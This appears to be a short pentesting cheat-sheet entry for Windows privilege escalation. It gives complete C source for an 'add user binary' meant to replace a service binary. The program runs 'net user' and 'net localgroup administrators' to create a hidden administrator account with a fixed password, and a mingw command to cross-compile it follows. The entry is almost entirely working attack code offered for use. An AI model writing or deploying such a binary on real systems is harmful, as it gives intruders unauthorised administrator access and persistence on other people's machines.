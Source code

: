 
#### Windows

custom windows binaries.

###### Add User Binary

Windows add user binary - to replace a service binary and add an administrator

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

`x86_64-w64-mingw32-gcc adduser.c -o adduser.exe` - we can cross-compile our binary for a 64 bit system